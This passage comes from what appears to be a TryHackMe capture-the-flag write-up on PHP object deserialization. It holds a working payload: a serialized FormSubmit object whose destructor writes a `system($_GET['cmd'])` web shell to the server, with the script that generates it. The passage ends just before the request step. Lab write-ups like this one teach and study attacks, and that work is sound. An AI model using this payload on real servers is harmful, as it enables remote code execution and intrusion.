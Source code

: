 ```php
$application = new FormSubmit;
$application -> SaveMessage();


?>
```
Looking at the code, unsanitized input on `debug` parameter is directly sent to `unserialize` function. This can lead to code execution if we can control the values passed to the magic functions.

### Magic methods on PHP
```php
__wakeup()
__destruct()
__toString()
__call()
```

[Ippsec](https://twitter.com/ippsec) has done a great job of explaining deserialization on PHP in [this](https://www.youtube.com/watch?v=HaW15aMzBUM) video. So, I suggest you to watch this video once.

`__destruct()` method is present on the code above and looks like we can create a file on the home directory of the webserver and also control the name of the file and content of the file.

## Creating a PHP serialized object to get code execution
### Content of test.php
```php
<?php
class FormSubmit{
        public $form_file = 'test.php';
        public $message = '<?php system($_GET["cmd"]); ?>';
}
$obj = new FormSubmit();
echo serialize($obj);
?>
```

### Generating a serialized payload
```bash
reddevil@ubuntu:~/Documents/tryhackme/debug$ php test.php 
O:10:"FormSubmit":2:{s:9:"form_file";s:8:"test.php";s:7:"message";s:30:"<?php system($_GET["cmd"]); ?>";}
```

## Making a request